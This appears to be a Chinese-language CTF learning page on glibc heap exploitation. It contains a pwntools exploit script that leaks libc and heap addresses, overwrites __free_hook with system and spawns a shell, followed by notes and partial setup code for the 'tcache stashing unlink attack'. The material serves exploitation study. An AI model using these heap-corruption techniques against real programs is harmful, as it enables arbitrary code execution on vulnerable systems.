 ```python
delete(0)
delete(2)
show(0)
libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x1ecbe0
p.recv(2)
heapbase=u64(p.recv(8))-0x3b0
print(hex(libcbase))
print(hex(heapbase))
add(b'a',0x500,b'b') #2

free_hook=libcbase+libc.sym['__free_hook']
system=libcbase+libc.sym['system']
mp_=libcbase+0x1EC280+0x50+1
magic(p64(mp_),b'\x70')
delete(1)
delete(2)
add(b'a',0x500,b'a') #1
p.sendlineafter(menu,str(1))
p.sendafter("Please leave your name: ",b'a'*8+p64(free_hook))
p.sendlineafter("Please input the length of your desciption: ",str(0x530))
p.sendlineafter("Please input the content of your desciption: ",b'/bin/sh\x00') #2
dbg()
add(b'a',0x500,p64(system)) #4

delete(2)

p.interactive()
```

tcache stashing unlink attack
=============================

学习时参考的博客  
[一篇讲原理的博客](https://blog.csdn.net/qq_41252520/article/details/126198171)  
[例题博客](https://blog.csdn.net/weixin_55700752/article/details/134007196)  
[例题博客](https://xz.aliyun.com/t/7192?time__1311=n4%2BxnD0GDtKxc7DuDBqroGkigQYvNNDke%3DzeD&amp;alichlgref=https%3A%2F%2Fblog.csdn.net%2Fweixin_55700752%2Farticle%2Fdetails%2F134007196)  
[例题博客](https://ruan777.github.io/2020/02/04/HITCON2019-Quals-One-punch-Man/)

**1.获得任意地址target\_addr的控制权 2.在任意地址target\_addr写入大数值**  
**但是说实话这个技巧除了配合house of pig好像没有太大作用**

代码
--

```python
calloc(0xa0)
#让tcache中有6个0xb0的chunk
for i in range(6):
    calloc(0xa0)
    free(i)

#---------------------一般都是通过切割unsorted bin来得到smallbin的堆块-------------------
calloc(0x4b0) #9
calloc(0xb0) #10
free(9)
#此时smallbin有1个0xb0的chunk
calloc(0x400)

calloc(0x4b0) #11
calloc(0xb0)  #12
free(11)
#此时smallbin有2个0xb0的chunk
calloc(0x400) #13

```